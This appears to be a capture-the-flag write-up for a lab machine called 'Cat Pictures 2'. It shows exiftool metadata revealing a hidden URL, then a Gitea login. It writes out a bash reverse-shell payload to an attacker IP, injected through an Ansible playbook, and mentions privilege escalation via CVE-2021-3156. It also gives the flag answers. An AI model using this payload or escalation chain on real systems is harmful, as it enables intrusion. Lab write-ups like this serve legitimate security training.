




> # Cat Pictures 2

## Summary
- [Summary](#summary)
  - [What is Flag 1?](#what-is-flag-1)
  - [What is Flag 2?](#what-is-flag-2)
  - [What is Flag 3?](#what-is-flag-3)

### What is Flag 1?
The machine open port 80, it hosts some cat picture. I download all the images then use `exiftool` to find metadata from them.<br>
```shell
$ exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg 
ExifTool Version Number         : 12.76
File Name                       : f5054e97620f168c7b5088c85ab1d6e4.jpg
Directory                       : .
File Size                       : 7.4 MB
File Modification Date/Time     : 2024:09:11 12:11:10-04:00
File Access Date/Time           : 2024:09:11 12:11:22-04:00
File Inode Change Date/Time     : 2024:09:11 12:11:10-04:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
XMP Toolkit                     : Image::ExifTool 12.49
Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt
```
Navigate to this URI, you will see the credential of Gitea webapp.<br>
<br>
Login to this webapp, you will the repo contrain `flag1.txt`.<br>
<br>
**Answer:** 10d916eaea54bb5ebe36b59538146bb5

### What is Flag 2?
The .txt file hint the port 1337, this repo has a ansible's playbook that execuet command on the machine. So I change it to get reverse shell. The payload will look lie `bash -c 'bash -i >& /dev/tcp/10.2.38.189/4444 0>&1'`.<br>
After we run ansible playbook, we will get reverse shell and the `flag2.txt` is in current folder.<br>
<br>
**Answer:** 5e2cafbbf180351702651c09cd797920

### What is Flag 3?
Push linpease.sh to the machine, then execute it to find vulneratble to privilage escalation.<br>
We find the vuln CVE-2021-3156, compiled and execute it to get root privilage.<br>
<br>
**Answer:** 6d2a9f8f8174e86e27d565087a28a971
